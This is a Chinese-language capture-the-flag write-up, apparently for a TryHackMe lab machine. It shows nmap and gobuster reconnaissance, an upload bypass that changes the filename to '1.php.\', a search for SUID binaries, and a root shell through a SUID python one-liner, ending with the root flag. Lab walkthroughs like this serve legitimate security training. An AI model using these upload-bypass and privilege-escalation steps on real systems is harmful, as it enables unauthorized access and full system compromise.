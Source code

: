 # 服务发现
```
┌──(root💀kali)-[~]
└─#  nmap -sV -Pn 10.10.15.221                                                                                                                                                                                                         255 ⨯
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-17 05:00 EDT
Stats: 0:00:14 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 51.60% done; ETC: 05:01 (0:00:11 remaining)
Nmap scan report for 10.10.15.221
Host is up (0.32s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.85 seconds
```


# 目录爆破,发现上传路径/panel
```
┌──(root💀kali)-[~]
└─#  gobuster dir -u 10.10.15.221 -w /usr/share/wordlists/Web-Content/directory-list-2.3-small.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.15.221
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/09/17 05:02:45 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.15.221/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.15.221/css/]    
/js                   (Status: 301) [Size: 309] [--> http://10.10.15.221/js/]     
/panel                (Status: 301) [Size: 312] [--> http://10.10.15.221/panel/] 
```


# 上传绕过
因为apache的版本是2.4.29，存在一个一个文件解析漏洞，参考https://book.hacktricks.xyz/pentesting-web/file-upload绕过
burpsuite抓包，修改filename

```filename="1.php.\"```

# 查找所有SUID文件
```
find / -user root -perm /4000

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

# 利用python提权
```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
#  id
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
#  cat /root/root.txt
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```
